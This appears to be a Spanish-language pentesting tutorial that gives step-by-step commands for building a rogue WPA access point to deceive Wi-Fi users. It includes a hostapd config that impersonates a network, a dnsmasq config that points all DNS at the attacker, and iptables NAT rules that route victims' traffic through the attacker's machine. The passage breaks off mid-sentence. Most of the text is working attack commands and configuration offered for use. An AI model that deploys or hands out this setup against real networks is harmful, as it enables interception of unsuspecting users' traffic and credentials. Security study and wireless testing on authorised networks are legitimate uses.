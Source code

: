 # AP Rogue WPA

Un ataque **Access Point Rogue WiFi Protected Access** (**AP Rogue WPA**) implica en la creación de un punto de acceso falso que imite a un ap legítimo, con el objetivo de engañar a los usuarios para que se conecten a este y así capturar sus datos. 

--- 
# Explopiting AP Rogue WPA

Lo primero que necesitamos llevar a cabo es la configuración de la interfaz en modo monitor.

```bash
sudo ip link set {interface} down

sudo iw dev {interface} set type monitor

sudo ip link set {interface} up
```

Adicionalmente, para evitar conflictos con la creación del punto de acceso es importante que la configuración de canal del mismo coincida con la configuración de canal que usa nuestra interfaz.

```bash
# Check interface info
sudo iw dev {interface} info
# Set a specific channel 
sudo iw dev {interface} set channel 6
```

Ahora necesitamos hacer es instalar la herramienta `hostapd` la cual nos permitirá crear puntos de acceso Wi-Fi.

```bash
# In linux devices
sudo apt-get install hostapd
# In devices like Wi-Fi Pineaple Mark VII
opkg install hostapd
```

Tras la instalación de esta herramienta, necesitaremos crear un archivo de configuración para que `hostapd` pueda hacer uso de esta para la configuración y creación del falso AP.

- **/etc/hostapd/hostapd-wpa.conf**
```bash
interface={interface}
driver=nl80211
ssid={fake_ssid_name}
channel={channel}
hw_mode=g
wpa=2
wpa_passphrase={password_to_use}
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
```

Una vez creado el archivo de configuración deberemos llevar a cabo la configuración de *DNS* y *DHCP* para que los clientes puedan conectarse al AP y recibir una dirección IP, para esto necesitaremos configurar un servidor DHCP y redirigir el tráfico DNS. Haremos uso de la herramienta `dnsmasq`. 

```bash
# In linux devices
sudo apt-get install dnsmasq
# In devices like Wi-Fi Pineaple Mark VII
opkg install dnsmasq
```

Una vez instalada la misma deberemos, una vez más, crear el archivo de configuración.

- **/etc/dnsmasq.conf** (Ejemplo de segmento de red *192.168.2.0*)
```c
interface={interface}
dhcp-range=192.168.2.10,192.168.2.100,12h 
dhcp-option=3,192.168.2.1
dhcp-option=6,192.168.2.1
address=/#/192.168.2.1
```

Tras la creación de estas configuraciones, tenemos que configurar la red, es decir nuestra interfaz:

```bash
ifconfig {interface} 192.168.2.1 netmask 255.255.255.0 up
```

Una vez configurada nuestra red, debemos iniciar tanto `hostapd` como `dnsmasq` con sus respectivas configuraciones...

```bash
# Starting hostapd with specific conf
hostapd /etc/hostapd/hostapd-wpa.conf
# Start dnsmasq using a config file 
dnsmasq -C /etc/dnsmasq.conf
```

Por último, simplemente deberíamos configurar el *IP Forwarding* y configurar *NAT* (Network Address Translation) para que finalmente los clientes puedan navegar.

- Habilitar IP Forwarding
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- Configurar NAT (En el ejemplo se utiliza eth0 como interfaz con acceso a internet)
```bash
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i {interface_created} -o eth0 -j ACCEPT
iptables -A FORWARD -i eth0 -o {interface_created} -j ACCEPT
```

- `iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE`: Regla de iptables que hace que todo el tráfico saliente desde cualquier interfaz se enmascare como si viniera desde nuestra interfaz con acceso a internet (eth0), permitiendo que los paquetes salgan a internet.   qu